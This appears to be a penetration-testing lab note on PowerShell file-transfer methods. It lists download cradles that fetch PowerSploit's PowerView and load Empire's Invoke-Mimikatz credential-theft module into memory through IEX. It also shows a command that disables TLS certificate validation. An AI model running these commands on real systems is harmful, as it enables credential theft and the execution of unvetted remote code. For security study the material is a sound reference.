 Native File Transfer Powershell
################################

Date: 2024-11-01 11:47

Status:


Native File Downloads
************************
Windows File Transfer Methods that are available within powershell

By using the `system.net.webclient
methods <https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0>`__

Example 1: Download to Disk

.. code-block:: console

   PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
   PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

   PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
   PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')

Example 2: Download and execute in memory

Using the invoke Expression method:

.. code-block:: console


   PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX

There is also a cmdlet like wget on Powershell called
`invoke-WebRequest <invoke-WebRequest>`__

.. code-block:: console

   PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

Issues you may encounter
*************************

On a first time run a Window may pop up asking to configure Explorer.
You can bypass this by adding (UseBasicParsing):

.. code-block:: console


   PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX

If you are accessing a resource that has an invalid certificate, you
will have to configure the server to accept invalid certs.

.. code-block:: console

   PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

References
*************
`Harmj0y powershell
cradles <https://gist.github.com/HarmJ0y/bb48307ffa663256e239>`__
